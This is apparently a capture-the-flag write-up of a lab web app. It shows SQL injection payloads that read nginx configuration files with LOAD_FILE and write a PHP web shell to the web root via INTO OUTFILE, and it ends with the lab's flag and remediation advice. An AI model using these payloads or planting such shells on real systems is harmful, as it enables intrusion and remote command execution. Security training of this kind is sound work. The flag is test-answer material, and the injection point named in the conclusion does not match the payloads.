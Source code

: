 ***Question 2***

What is the root path of the web application? 


It looks like Linux machine.So let's check out default Nginx path: /etc/nginx/nginx.conf

```
')union+select+1,2,load_file('/etc/nginx/nginx.conf'),4--+&u=4
```
i didn't find anything in the output of our SQLi command.I tried to search what is default root path for nginx.I found this path /etc/nginx/sites-available>

```
cn ' ) UNION SELECT  1 ,  2 ,  LOAD_FILE ( "/etc/nginx/sites-enabled/default" ),  4 -- -
```
![1_gGk3JyHrm5wMHp2AdK9htQ](https://github.com/user-attachments/assets/8fea27ac-f7d5-48f5-9f46-f17128454b18)

***Answer:*** /var/www/chattr-prod


***Question 3***

 Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below. 

 Now let's upload our code execution file

 ```
q=hello')union+select+1,2,'<?=`$_GET[0]`?>',4+into+outfile+'/var/www/chattr-prod/sh.php'--+&u=4
```

After we successfully uploaded our shell file


<img width="1024" height="341" alt="16" src="https://github.com/user-attachments/assets/88b6e6ee-ee6a-470c-9f64-6a5e05abcc38" />


It works!

Let's find our flag file in our home directory



<img width="1153" height="192" alt="17" src="https://github.com/user-attachments/assets/bd0d747f-6b73-457f-ae54-7e990357357b" />

We successfuly got a flag


<img width="1058" height="335" alt="18" src="https://github.com/user-attachments/assets/ae8aba5d-5ca2-4ed8-806d-2d1c8b6efcf0" />


### Conclusion 

The SQL injection in `/?id=` was successfully exploited to retrieve the flag:

**Flag:** `061b1aeb94dec6bf5d9c27032b3c1d8d`

Overall, the vulnerability was caused by unsanitized user input and lack of parameterized queries. Fixing the issue requires using prepared statements, input validation, and least-privilege database accounts.

